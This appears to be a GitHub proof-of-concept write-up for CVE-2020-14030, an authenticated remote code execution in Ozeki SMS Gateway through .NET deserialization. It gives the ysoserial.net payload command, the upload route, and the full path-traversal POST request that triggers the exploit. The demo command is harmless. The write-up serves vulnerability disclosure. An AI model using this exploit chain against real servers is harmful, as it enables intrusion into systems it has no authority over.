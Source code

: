 # CVE-2020-14030: Ozeki SMS Gateway Remote Code Execution via .NET Deserialization

The Ozeki SMS Gateway software, versions 4.17.6 and below, stores SMSs in .NET serialized format on the filesystem.
<br/>
By generating and writing to the disk malicious .NET serialized files, an attacker can trick Ozeki into deserializing them resulting in arbitrary code execution.
<br/>

### Requirements:

This vulnerability requires:
- Access to an Ozeki Web Application administration interface with "admin" credentials

### Proof Of Concept:

We generate the malicious deserialization payload using the YSoSerial.NET tool with the following command:

```ysoserial.exe -f BinaryFormatter -c 'whoami > C:\Windows\Temp\Deserialization.txt' -g DataSet```

<strong>Note:</strong> We will need to decode the payload if it is in base64 form to obtain a functional .NET serialized file.
<br/>
<strong>Note 2:</strong> When deserializaing the payload the command that will be executed will be:
```whoami > C:\Windows\Temp\Deserialization.txt```

Upload the serialized payload file to the server (via "Import Contacts" or Voice SMS Attachment):

<img src="Adressbook.png"/>
<img src="Import.png"/>

We can view the event logs in order to confirm that the file was successfully uploaded to "C:\TEMP\DataSet.txt":

<img src="Eventlog.png"/>

And indeed, if we look directly on the file system we can find the desired file containing our desired serialized payload:

<img src="Upload%20Success.png"/>

Now, we use a path traversal in the “Move SMS Folder” functionality to trick Ozeki into deserializing the file.
<br/>
This functionality does 3 things:
- Takes the "messageid" of an SMS file in an unsafe manner so we can use a "..\" path traversal to point it to a file outside of the user's SMS boxed (Ex. inbox, outbox, sent, etc.)
- Tries to move the file to the desired box, but does not succeed due to the path traversal
- Reads and deserializes the file in order to display it in the web interface.

This last step is what interest us the most as during the deserialization phase our malicious payload will result in code execution.

Request:
```
POST /default HTTP/1.1
Host: <IP>:9501
Content-Type: application/x-www-form-urlencoded
Content-Length: 152
Cookie: usrckenc=b3c***TRUNCATED***04c

layout=MENUVIEW&MAIN=USERMAIN&MENU=USERMENU&user=admin&folder=outbox&movetofolder=sent&messageid_..\..\..\..\..\..\..\..\Windows\Temp\DataSet.b64.txt=on
```

If all the above steps were performed correctly we will see the following results:
- The "DataSet.txt.error" file will appear signifying that the path traversal was successful
- The above command was executed successfully and the file "Deserialization.txt" was created

<img src="Result.png"/>

### Additional Resources:

[YSoSerial.NET](https://github.com/pwntester/ysoserial.net)
